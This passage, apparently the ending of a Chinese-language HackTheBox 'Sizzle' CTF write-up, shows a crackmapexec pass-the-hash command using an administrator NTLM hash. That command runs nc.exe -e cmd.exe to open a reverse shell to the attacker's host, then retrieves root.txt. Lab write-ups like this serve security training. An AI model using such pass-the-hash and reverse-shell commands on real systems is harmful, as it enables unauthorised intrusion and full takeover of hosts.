 > 注意:我使用 rlwrap，这样当我得到一个 shell 时就可以使用箭头键。

然后，我执行一个命令，使用 cme 启动到我的监听器的连接:

```
sudo /opt/cme smb 10.10.10.103 -d HTB -u administrator -H f6b7160bfc91823792e0ac3a162c9267 -X "c:\windows\system32\spool\drivers\color\nc.exe 10.10.14.3 9001 -e cmd.exe"
```

在我的监听器上，我得到一个连接。我确认我在主机 SIZZLE 上以`Administrator`的身份运行。

![](img/869eb9287566e848914ff1dd27420a80.png)

我现在可以在`Administrator\Desktop`下面列出文件，并在那里找到 root.txt:

![](img/73fb12116c85e8a050180d078e60f615.png)

这就是我如何解决 HacktheBox 的 Sizzle 问题！这是一个可怕的旅程，但绝对值得！感谢阅读！🍺